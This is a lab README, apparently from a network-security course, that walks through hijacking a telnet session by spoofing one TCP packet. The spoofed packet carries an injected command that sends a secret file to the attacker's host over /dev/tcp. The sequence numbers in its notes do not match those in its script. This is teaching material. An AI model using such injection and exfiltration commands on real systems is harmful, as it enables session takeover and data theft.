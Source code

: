 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name     | IP Address  |
|-------------|-------------|
| VM1         | 10.0.2.4    |
| VM2         | 10.0.2.5    |
| VM3         | 10.0.2.6    |

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client uses this *echo* command to create a secret file on the server.

![alt text](lab-tcp-hijack-echo.png "Lab tcp session hijacking echo")

3. the client uses the *cat* command to confirm the file now exists and is located at /home/seed/secret:
![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

4. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-start-wireshark.png "Lab tcp hijack start wireshark")
![alt text](lab-tcp-hijack-start-capture.png "Lab tcp hijack start capture")

5. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

6. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

This image shows the ip addresses, and the ttl attribute.
![alt text](lab-tcp-hijack-ip-header.png "Lab tcp hijack latest tcp capture - part 1, ip header")

This image shows the port numbers, the next sequence number, the acknowledgment number, and the window size - still the same packet.
![alt text](lab-tcp-hijack-tcp-header.png "Lab tcp hijack latest tcp capture - part 2, tcp header")

7. the above packet provides the information which the attacker needs to know in order to perform the tcp reset attack. now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 45736
destination_port = 23
sequence_num = 1717083005
acknowledgment_num = 1242665292
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the next sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 45736, the destination port is 23. the tcp window size (in this example) is 501, the time to live (ttl) value is 64. The tcp data we can use is: "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r".

**Explanation**: The telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", but we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings.

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address. Thus we come to our next step,

8. before running the script, the attacker needs to open another terminal window so that the attacker can listen on a port at the attacker's IP address - here we choose port 9090, which matches with what is specified in the python script.

8.1. Listening in one terminal window:
![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

8.2. Run python script in another terminal window:
- before and after pressing enter to run the script:
![alt text](lab-tcp-hijack-before-enter.png "Lab tcp hijacking attack before pressing enter")
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after pressing enter")

9. once the attacker pressed enter to execute the above script, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
